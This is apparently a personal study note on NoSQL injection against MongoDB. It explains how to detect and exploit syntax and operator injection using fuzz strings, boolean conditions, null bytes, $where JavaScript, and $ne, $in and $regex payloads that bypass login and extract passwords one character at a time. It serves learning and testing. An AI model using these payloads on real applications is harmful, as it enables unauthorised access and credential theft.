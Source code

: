 >[!summary]
>[NoSQL 101](../Dev,%20scripting%20&%20OS/NoSQL%20101.md) injection is a vulnerability where an attacker is able to interfere with the queries that an application makes to a NoSQL database.

Potential impact:
- Authentication Bypass
- Extract or edit data
- Denial of Service
- [Remote Code Execution (RCE)](Remote%20Code%20Execution%20(RCE).md)

# Types of NoSQL Injection

## Syntax Injection

This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload. 

### Detect

To do this, systematically test each input by submitting fuzz strings and special characters that trigger a database error or some other detectable behavior if they're not adequately sanitized or filtered by the application. [^1]

Example string for MongoDB:
```
'"`{
;$Foo}
$Foo \xYZ

https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```

>[!note]
>In some applications, you may need to inject your payload via a JSON property instead. In this case, this payload would become
>```
>'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
>```

### Exploit

**Boolean condition**

After detecting a vulnerability, the next step is to determine whether you can influence boolean conditions using NoSQL syntax.
To test this, send two requests, one with a false condition and one with a true condition. For example you could use the conditional statements `' && 0 && 'x` and `' && 1 && 'x` as follows:
```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```

Now that you have identified that you can influence boolean conditions, you can attempt to override existing conditions to exploit the vulnerability. For example, you can inject a JavaScript condition that always evaluates to true, such as `'||1||'`

```
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27

Resulting query:
this.category == 'fizzy'||'1'=='1'
```

You could also add a null character after the category value. MongoDB may ignore all characters after a null character. This means that any additional conditions on the MongoDB query are ignored:

```
https://insecure-website.com/product/lookup?category=fizzy'%00

Resulting query:
this.category == 'fizzy'\u0000' && this.released == 1 (where "&& this.released == 1" is ignored)
```

**JavaScript code**

Some query operators or functions can run limited JavaScript code, such as MongoDB's `$where` operator and `mapReduce()` function.

```
https://insecure-website.com/user/lookup?username=admin

Resulting query:
{"$where":"this.username == 'admin'"}
```

As the query uses the `$where` operator, you can attempt to inject JavaScript functions into this query so that it returns sensitive data:
```js
admin' && this.password[0] == 'a' || 'a'=='b // This returns the first character of the user's password string, enabling you to extract the password character by character.
```

![](attachments/nosql-injection-bruteforce-1.png)
![](attachments/nosql-injection-bruteforce-2.png)
![](attachments/nosql-injection-bruteforce-3.png)

You could also use the JavaScript `match()` function to extract information:
```js
admin' && this.password.match(/\d/) || 'a'=='b
```

**Identifying field names**

You may need to identify valid fields in the collection before you can extract data using JavaScript injection. Send the payload again for an existing field and for a field that doesn't exist. In this example, you know that the username field exists, so you could send the following payloads:

```
https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'

admin' && this.username!='
admin' && this.foo!='
```

If the `password` field exists, you'd expect the response to be identical to the response for the existing field (`username`), but different to the response for the field that doesn't exist (`foo`).
## Operator Injection

This occurs when you can use NoSQL query operators [^2] to manipulate queries. 

Examples of MongoDB query operators include:
- `$where` - Matches documents that satisfy a JavaScript expression.
- `$ne` - Matches all values that are not equal to a specified value.
- `$in` - Matches all of the values specified in an array.
- `$regex` - Selects documents where values match a specified regular expression.

### Detect

In JSON messages, you can insert query operators as nested objects:

```json
{"username":"wiener"}
{"username":{"$ne":"invalid"}}

{"username":{"$ne":"invalid"},"password":{"peter"}}
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

![](attachments/nosql-op-auth-bypass.png)

For URL-based inputs, you can insert query operators via URL parameters:

```http
username=wiener
username[$ne]=invalid
```

If this doesn't work, you can try the following:
1. Convert the request method from `GET` to `POST`.
2. Change the `Content-Type` header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators in the JSON.

### Exploit

Even if the original query doesn't use any operators that enable you to run arbitrary JavaScript, you may be able to inject one of these operators yourself. You can then use boolean conditions to determine whether the application executes any JavaScript that you inject via this operator.

To test whether you can inject operators, you could try adding the `$where` operator as an additional parameter:
```

{"username":"wiener","password":"peter"}

{"username":"wiener","password":"peter", "$where":"0"}
{"username":"wiener","password":"peter", "$where":"1"}
```

If you have injected an operator that enables you to run JavaScript, you may be able to use the `keys()` method to extract the name of data fields:
```js
"$where":"Object.keys(this)[0].match('^.{0}a.*')" // This inspects the first data field in the user object and returns the first character of the field name. This enables you to extract the field name character by character.
```

You may be able to extract data using operators that don't enable you to run JavaScript. For example, you may be able to use the `$regex` operator to extract data character by character:

```js

{"username":"myuser","password":"mypass"}

{"username":"admin","password":{"$regex":"^.*"}} // If the response to this request is different to the one you receive when you submit an incorrect password, this indicates that the application may be vulnerable
{"username":"admin","password":{"$regex":"^a*"}}
```

See for example:
- [Authentication bypass via operator injection](../../Readwise/Articles/blackbird-eu%20-%20NoSQLi%20A%20Complete%20Guide%20to%20Exploiting%20Advanced%20NoSQL%20Injection%20Vulnerabilities.md#Authentication%20bypass%20via%20operator%20injection)
- [Extracting data with time delays](../../Readwise/Articles/blackbird-eu%20-%20NoSQLi%20A%20Complete%20Guide%20to%20Exploiting%20Advanced%20NoSQL%20Injection%20Vulnerabilities.md#Extracting%20data%20with%20time%20delays)
- [Executing server-side JavaScript code with NoSQL syntax injection](../../Readwise/Articles/blackbird-eu%20-%20NoSQLi%20A%20Complete%20Guide%20to%20Exploiting%20Advanced%20NoSQL%20Injection%20Vulnerabilities.md#Executing%20server-side%20JavaScript%20code%20with%20NoSQL%20syntax%20injection)

[^1]: [Identifying NoSQL injection vulnerabilities](../../Readwise/Articles/blackbird-eu%20-%20NoSQLi%20A%20Complete%20Guide%20to%20Exploiting%20Advanced%20NoSQL%20Injection%20Vulnerabilities.md#Identifying%20NoSQL%20injection%20vulnerabilities)

[^2]: [MongoDB Operators](../../Readwise/Articles/blackbird-eu%20-%20NoSQLi%20A%20Complete%20Guide%20to%20Exploiting%20Advanced%20NoSQL%20Injection%20Vulnerabilities.md#MongoDB%20Operators)
